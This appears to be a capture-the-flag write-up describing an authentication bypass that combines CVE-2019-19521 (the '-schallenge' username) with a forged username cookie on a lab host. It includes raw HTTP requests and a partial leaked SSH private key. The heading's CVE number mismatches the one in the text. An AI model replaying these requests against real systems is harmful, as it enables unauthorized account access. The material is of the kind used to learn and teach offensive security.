 ## CVE-2019-1952

We use the CVE-2019-19521 to bypass the authentication using the username
`-schallenge`. But the application tell us that there is no key found for the
user `-schallenge`. We want to authenticate as `jennifer`.

> OpenSSH key not found for user -schallenge

We fire up Burp and add a `username=jennifier` cookie to our authentication
request.

    :::text
    POST /index.php HTTP/1.1
    Host: 10.10.10.199
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.199/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31
    Connection: close
    Cookie: PHPSESSID=5j485ne4sih5h7dl0fk2f2e8g7;username=jennifer
    Upgrade-Insecure-Requests: 1

    username=-schallenge&password=q

We also add the cookie to the next request to `sshkey.php`

    :::text
    GET /sshkey.php HTTP/1.1
    Host: 10.10.10.199
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.199/index.php
    Connection: close
    Cookie: PHPSESSID=jma32i3d8r5ob3lmo3hbgi741a;username=jennifer
    Upgrade-Insecure-Requests: 1


The application directly give us Jennifer's SSH private key.

    :::text
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAo4LwXsnKH6jzcmIKSlePCo/2YWklHnGn50YeINLm7LqVMDJJnbNx
    OI6lTsb9qpn0zhehBS2RCx/i6YNWpmBBPCy6s2CxsYSiRd3S7NftPNKanTTQFKfOpEn7rG
    nag+n7Ke+iZ1U/FEw4yNwHrrEI2pklGagQjnZgZUADzxVArjN5RsAPYE50mpVB7JO8E7DR
    PWCfMNZYd7uIFBVRrQKgM/n087fUyEyFZGibq8BRLNNwUYidkJOmgKSFoSOa9+6B0ou5oU
    qjP7fp0kpsJ/XM1gsDR/75lxegO22PPfz15ZC04APKFlLJo1ZEtozcmBDxdODJ3iTXj8Js
    kLV+lnJAMInjK3TOoj9F4cZ5WTk29v/c7aExv9zQYZ+sHdoZtLy27JobZJli/9veIp8hBG
    717QzQxMmKpvnlc76HLigzqmNoq4UxSZlhYRclBUs3l5CU9pdsCb3U1tVSFZPNvQgNO2JD
    S7O6sUJFu6mXiolTmt9eF+8SvEdZDHXvAqqvXqBRAAAFmKm8m76pvJu+AAAAB3NzaC1yc2
    EAAAGBAKOC8F7Jyh+o83JiCkpXjwqP9mFpJR5xp+dGHiDS5uy6lTAySZ2zcTiOpU7G/aqZ
    9M4XoQUtkQsf4umDVqZgQTwsurNgsbGEokXd0uzX7TzSmp000BSnzqRJ+6xp2oPp+ynvom
    dVPxRMOMjcB66xCNqZJRmoEI52YGVAA88VQK4zeUbAD2BOdJqVQeyTvBOw0T1gnzDWWHe7
    iBQVUa0CoDP59PO31MhMhWRom6vAUSzTcFGInZCTpoCkhaEjmvfugdKLuaFKoz+36dJKbC
    f1zNYLA0f++ZcXoDttjz389eWQtOADyhZSyaNWRLaM3JgQ8XTgyd4k14/CbJC1fpZyQDCJ
    4yt0zqI/ReHGeVk5Nvb/3O2hMb/c0GGfrB3aGbS8tuyaG2SZYv/b3iKfIQRu9e0M0MTJiq
    b55XO+hy4oM6pjaKuFMUmZYWEXJQVLN5eQlPaXbAm91NbVUhWTzb0IDTtiQ0uzurFCRbup l4qJU5rfXhfvErxHWQx17wKqr16gUQAAAAMBAAEAAAGBAJjT/uUpyIDVAk5L8oBP3IOr0U
    Z051vQMXZKJEjbtzlWn7C/n+0FVnLdaQb7mQcHBThH/5l+YI48THOj7a5uUyryR8L3Qr7A
    UIfq8IWswLHTyu3a+g4EVnFaMSCSg8o+PSKSN4JLvDy1jXG3rnqKP9NJxtJ3MpplbG3Wan
    j4zU7FD7qgMv759aSykz6TSvxAjSHIGKKmBWRL5MGYt5F03dYW7+uITBq24wrZd38NrxGt
    wtKCVXtXdg3ROJFHXUYVJsX09Yv5tH5dxs93Re0HoDSLZuQyIc5iDHnR4CT+0QEX14u3EL